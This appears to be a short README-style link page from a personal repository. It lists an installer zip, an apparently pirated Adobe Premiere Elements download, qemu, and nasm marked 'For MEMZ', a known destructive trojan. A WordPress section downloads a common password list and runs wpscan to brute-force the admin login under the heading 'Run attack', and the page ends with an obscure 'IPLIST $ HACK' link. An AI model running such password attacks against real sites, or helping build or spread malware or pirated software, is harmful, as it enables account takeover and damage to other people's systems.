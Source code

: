 # Files
[Cloud Penguin](./Cloud Penguin Installer.zip)  
[Multi-Bot Add On](https://cloudpengu.in/store/#view:09d0682c-0637-48f0-9736-9a0d126a5ff4)  
[Adobe Premiere Elements](https://lynbrookpublicschools-my.sharepoint.com/personal/blarkin_lynbrookschools_org/_layouts/15/guestaccess.aspx?docid=0e45e026f6b1947edab8432a0e64e1df9&authkey=AUkMqTr8Rh5RErnPo_FJz6Q)  
[Adobe Premiere Elements ***Fixed***](adobe.html)   
[qemu {Bootloader}](https://qemu.weilnetz.de/)   
[nasm ***For MEMZ***](http://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D)   
## WordPress
     wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/10_million_password_list_top_10000.txt
Run attack

     wpscan –url localhost –wordlist ~/10_million_password_list_top_10000.txt –user admin


#IPLIST $ HACK
[https://goo.gl/6cOhCY](https://goo.gl/6cOhCY)
